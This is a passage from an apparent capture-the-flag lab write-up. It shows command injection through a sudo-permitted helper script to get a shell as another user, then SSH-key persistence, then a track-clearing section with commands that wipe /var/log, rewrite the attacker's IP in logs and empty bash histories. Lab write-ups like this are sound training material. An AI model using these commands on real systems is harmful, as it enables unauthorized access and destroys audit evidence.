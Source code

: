 ```bash
sudo -u apaar /home/apaar/.helpline.sh
```

It prompts you for a name; you can put anything for that. Then it prompts you for a message. That should be: `/bin/bash`

You will now have a prompt running as `apaar`. So, you can inject your `~/.ssh/id_rsa.pub` public key into `apaar`'s `authorized_keys` files so that you can SSH in as `apaar` without being prompted for an SSH password. So, while we are running as `apaar`, run something like:

```bash
echo "ssh-rsa AAAAB3Nza<--SNIP-->udTRuFA8= user@example.com" >> /home/apaar/.ssh/authorized_keys
```

Where those contents would be your own public key from `~/.ssh/id_rsa.pub` on your workstation. If that file does not exist, run `ssh-keygen` and take all of the defaults (and you shouldn't set a password, in this particular case).

Finally, you can now `ssh apaar@<machine-ip>` and you should not be prompted for a password. You now have a proper SSH prompt running as `apaar`.


## Privilege Escalation

TBD


## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/merlin/.bash_history`
>  
> `cat /dev/null > /home/skyfrick/.bash_history`

## Summary

Completed: [2023-07-22 21:25:01]